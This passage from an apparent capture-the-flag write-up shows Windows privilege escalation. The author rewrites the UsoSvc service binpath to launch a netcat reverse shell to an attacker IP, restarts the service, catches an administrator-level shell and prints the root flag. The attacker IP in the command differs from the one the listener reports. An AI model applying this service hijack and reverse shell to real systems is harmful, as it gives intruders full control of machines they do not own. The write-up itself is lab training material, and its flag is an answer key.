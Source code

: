 Once the netcat is downloaded, sc.exe can be used to modify binpath of the
service and insert above download nc executable with reverse shell command
pointing to the attacking machine.

PS C:\\inetpub\\wwwroot\> sc.exe config UsoSvc binpath=
"C:\\inetpub\\wwwroot\\nc.exe -nv 10.10.14.224 8080 -e
C:\\WINDOWS\\System32\\cmd.exe"

[SC] ChangeServiceConfig SUCCESS

After the modifications to the service are done the service needs to be
restarted. However, before restarting the service make sure that netcat is
listening on the attacker machine. As shown below, first stop the service and
then start the service again.

PS C:\\inetpub\\wwwroot\> net stop UsoSvc

The Update Orchestrator Service service is stopping.

The Update Orchestrator Service service was stopped successfully.

PS C:\\inetpub\\wwwroot\> net start UsoSvc

Once the service is restarted the reverse shell command should be executed with
netcat on victim’s machine and the netcat on attacker’s machine should receive
it as show below.

root\@lifesfun:\~\# nc -nvlp 8080

listening on [any] 8080 ...

connect to [10.10.15.156] from (UNKNOWN) [10.10.10.180] 49757

Microsoft Windows [Version 10.0.17763.107]

(c) 2018 Microsoft Corporation. All rights reserved.

C:\\Windows\\system32\>type C:\\Users\\Administrator\\Desktop\\root.txt

type C:\\Users\\Administrator\\Desktop\\root.txt

29c16c8e6518ae7aacee614fe6e1c599
